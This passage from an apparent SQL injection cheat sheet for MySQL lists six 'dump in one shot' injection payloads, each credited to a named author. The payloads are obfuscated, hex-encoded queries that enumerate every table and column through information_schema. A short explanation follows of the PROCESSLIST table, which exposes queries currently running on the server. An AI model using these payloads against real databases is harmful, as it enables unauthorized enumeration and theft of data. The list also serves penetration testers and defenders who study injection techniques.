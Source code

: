 * SecurityIdiots
    ```sql
    make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
    ```

* Profexer
    ```sql
    (select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)
    ```

* Dr.Z3r0
    ```sql
    (select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))
    ```

* M@dBl00d
    ```sql
    (Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))
    ```

* Zen
    ```sql
    +make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)
    ```

* sharik
    ```sql
    (select(@a)from(select(@a:=0x00),(select(@a)from(information_schema.columns)where(table_schema!=0x696e666f726d6174696f6e5f736368656d61)and(@a)in(@a:=concat(@a,table_name,0x203a3a20,column_name,0x3c62723e))))a)
    ```


## MYSQL Current Queries

`INFORMATION_SCHEMA.PROCESSLIST` is a special table available in MySQL and MariaDB that provides information about active processes and threads within the database server. This table can list all operations that DB is performing at the moment.

The `PROCESSLIST` table contains several important columns, each providing details about the current processes. Common columns include: 

* **ID** : The process identifier.
* **USER** : The MySQL user who is running the process.
* **HOST** : The host from which the process was initiated.
* **DB** : The database the process is currently accessing, if any.
* **COMMAND** : The type of command the process is executing (e.g., Query, Sleep).
* **TIME** : The time in seconds that the process has been running.
* **STATE** : The current state of the process.
* **INFO** : The text of the statement being executed, or NULL if no statement is being executed.
     